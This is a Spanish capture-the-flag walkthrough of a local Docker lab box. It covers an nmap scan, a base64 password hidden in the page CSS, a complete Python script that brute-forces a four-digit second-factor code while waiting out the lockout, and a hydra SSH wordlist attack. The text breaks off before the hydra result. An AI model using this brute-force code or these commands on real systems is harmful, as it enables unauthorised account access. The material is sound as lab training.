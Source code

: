 
##FASE DE RECONOCIMIENTO
Después de desplegar el docker, la IP que nos muestra para la máquina es: 172.17.0.2

Vamos a realizar un scaneo de los puertos para ver cuales tiene abiertos y que servicios corren por ellos así como sus versiones:
```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
Desglose de opciones:
-sudo Ejecuta con privilegios elevados para acceder a más información

-nmap Herramienta para escanear puertos y servicios

-sS Escaneo SYN rápido y discreto

-sCV Combina

-sC Ejecuta scripts predeterminados

-sV Detecta versiones de servicios

-Pn Omite el ping previo

-min-rate 5000 Fija una tasa mínima de 5000 paquetes por segundo

-p Escanea todos los puertos del 1 al 65535

-vvv Muestra detalles verbosos

-open Muestra solo puertos abiertos

-172 17 0 2 IP del objetivo

-oN PuertosYservicios Guarda el resultado en el archivo PuertosYservicios


Me arroja este resultado:
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:c3:e7:47:85:79:ce:e9:e6:1f:dd:43:37:9b:aa:a5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD3OXUTsS/7EOODKcuxhghzwJQOp/JfH4v7ihKhkH4EMDtOCvyHvi1nO3HSZtsR3r5fuzrox1LzFwlu8mas25QU=
|   256 4d:80:5f:fa:24:fa:c3:70:fc:bd:39:d8:e7:5b:c7:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIN1X+NtUxcqV44+PcJo1OeyS+fWcgrxKcFUyHsu5JdsA
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

-El puerto 22 con ssh en una versión no vulnerable, pero sin user ni pass no podemos hacer nada

-puerto 80 http, nos centraremos en esto

me gusta lanzar un whatweb para ver un poquito que nos vamos a encontrar y que funciona en esa maquina:
```bash
whatweb http 172 17 0 2  tee whatweb
```
Desglose: 
-whatweb Herramienta de reconocimiento web que identifica tecnologías utilizadas en un sitio

-http 172 17 0 2 Dirección IP o URL objetivo

-pipe (|): Redirige la salida del comando whatweb

-tee whatweb Muestra la salida en pantalla y guarda una copia en el archivo whatweb

Por lo que muestra en la salida creo que es la página que trae un servidor apache por defecto, la abrimos en el navegador.
Con ctrl+u vemos el código fuente y buscamos si hay algo extrano:
y vemos esto:
```
div.page_header {
    height: 180px;
    width: 100%;

    background-color: #F5F6F7;
    background-color: UEFTU1dPUkRBRE1JTlNVUEVSU0VDUkVU;
```
y también esto:
```
 <div class="validator" hidden="lifeordead.dl">
```
y por supuesto:
```
/etc/apache2/
|-- apache2.conf
|       `--  ports.conf
|-- mods-enabled
|       |-- *.load
|       `-- *.conf
|-- conf-enabled
|       `-- *.conf
|-- sites-enabled
|       `-- *.conf
|
|-- admin
```
lo primero que hago es añadir el subdomino al /etc/hosts
```bash
sudo nano /etc/hosts
```
y añadimos al final
```
172.17.0.2      lifeordead.dl
```
 ahora nos centraremos en lo otro que vimos: UEFTU1dPUkRBRE1JTlNVUEVSU0VDUkVU

 lanzamos un decode de base 64:
 ```
echo "UEFTU1dPUkRBRE1JTlNVUEVSU0VDUkVU" | base64 -d;echo
```
```
PASSWORDADMINSUPERSECRET
```

Tenemos un password... y un user admin:PASSWORDADMINSUPERSECRET y un subdomino, pues vamos y veamos que nos encontramos, vamos a http://lifeordead.dl/
No vemos nada en el codigo fuente (mira que habría apostado que habría algo), nos centramos en el login, tenemos un user y un pass. lo metemos y nos manda a un
segundo factor de autentificación...hago un script chapucero pero al ver las solicitudes y respuestas veo :
```
{"status":"failed","attempts":9,"remainingTime":0}
```
tenemos 10 oportunidades en attemts el status failed nos indica que no es correcto nuestroo numero y amigo, no podia ser todo facil,
un bloqueo que lo controlamos cn remainingTime de 30 segundos, así que me monto un script en Python:
```bash
import requests
import time

# URLs y cabeceras
login_url = "http://lifeordead.dl/"
auth_code_url = "http://lifeordead.dl/pageadmincodeloginvalidation.php"
session_cookies = {"PHPSESSID": "hroh08qkr9ls38t502sghuhtlh"}  # Asegúrate de obtener la cookie válida

headers_login = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": login_url,
}

headers_2fa = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
    "Content-Type": "multipart/form-data; boundary=---------------------------81801669239445811504259151272",
    "Referer": "http://lifeordead.dl/pageadmincodelogin.html",
}

# Datos para login inicial
login_data = "username=admin&password=PASSWORDADMINSUPERSECRET"

# Intentar login
print("[+] Realizando login inicial...")
response = requests.post(login_url, headers=headers_login, data=login_data, cookies=session_cookies)

if response.status_code == 200:
    print("[+] Login inicial completado.")
else:
    print("[-] Error en el login inicial. Status Code:", response.status_code)
    exit()

# Ataque al segundo factor
for code in range(0, 10000):
    code_str = f"{code:04d}"  # Formato de 4 dígitos, ej. 0001
    form_data = f"-----------------------------81801669239445811504259151272\r\nContent-Disposition: form-data; name=\"code\"\r\n\r\n{code_str}\r\n-----------------------------81801669239445811504259151272--"

    print(f"[+] Probando código: {code_str}")
    response = requests.post(auth_code_url, headers=headers_2fa, data=form_data, cookies=session_cookies)

    # Procesar respuesta
    try:
        result = response.json()
        status = result.get("status")
        attempts = result.get("attempts", 0)
        remaining_time = result.get("remainingTime", 0)

        if status == "success":
            print(f"[+] Código correcto encontrado: {code_str}")
            break

        print(f"[-] Código incorrecto. Intentos restantes: {attempts}. Tiempo restante: {remaining_time}s")

        # Esperar si remainingTime es mayor que 0
        if remaining_time > 0:
            print(f"[!] Bloqueado. Esperando {remaining_time} segundos...")
            time.sleep(remaining_time + 1)  # Espera más de lo indicado para asegurar desbloqueo

    except ValueError:
        print("[-] Error procesando la respuesta del servidor.")
        continue

print("[+] Ataque finalizado.")
```

lo ejecutamos y...
```
+] Probando código: 0067
[-] Código incorrecto. Intentos restantes: 1. Tiempo restante: 0s
[+] Probando código: 0068
[-] Código incorrecto. Intentos restantes: 10. Tiempo restante: 30s
[!] Bloqueado. Esperando 30 segundos...
[+] Probando código: 0069
[-] Código incorrecto. Intentos restantes: 9. Tiempo restante: 0s
[+] Probando código: 0070
[-] Código incorrecto. Intentos restantes: 8. Tiempo restante: 0s
[+] Probando código: 0071
[-] Código incorrecto. Intentos restantes: 7. Tiempo restante: 0s
[+] Probando código: 0072
[-] Código incorrecto. Intentos restantes: 6. Tiempo restante: 0s
[+] Probando código: 0073
[-] Código incorrecto. Intentos restantes: 5. Tiempo restante: 0s
[+] Probando código: 0074
[-] Código incorrecto. Intentos restantes: 4. Tiempo restante: 0s
[+] Probando código: 0075
[-] Código incorrecto. Intentos restantes: 3. Tiempo restante: 0s
[+] Probando código: 0076
[-] Código incorrecto. Intentos restantes: 2. Tiempo restante: 0s
[+] Probando código: 0077
[-] Código incorrecto. Intentos restantes: 1. Tiempo restante: 0s
[+] Probando código: 0078
[-] Código incorrecto. Intentos restantes: 10. Tiempo restante: 30s
[!] Bloqueado. Esperando 30 segundos...
[+] Probando código: 0079
[-] Código incorrecto. Intentos restantes: 9. Tiempo restante: 0s
[+] Probando código: 0080
[-] Código incorrecto. Intentos restantes: 8. Tiempo restante: 0s
[+] Probando código: 0081
[+] Código correcto encontrado: 0081
[+] Ataque finalizado.
```

Bueno 0081, pues vamos a ver que nos encontramos
nos manda a 
```
http://lifeordead.dl/supermegasecretcodeadmin.php
```
y nos dá el siguiente código:
```
bbb2c5e63d2ef893106fdd0d797aa97a
```
probé varios desencriptados y no era posible o no era reconocido, así pues lo doy como un pass, tenemos un pass y un ssh, vamos a hydra:
```bash
hydra -t 64 -L /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -p bbb2c5e63d2ef893106fdd0d797aa97a ssh://172.17.0.2 -V -F -I
```
Después de un buen rato:



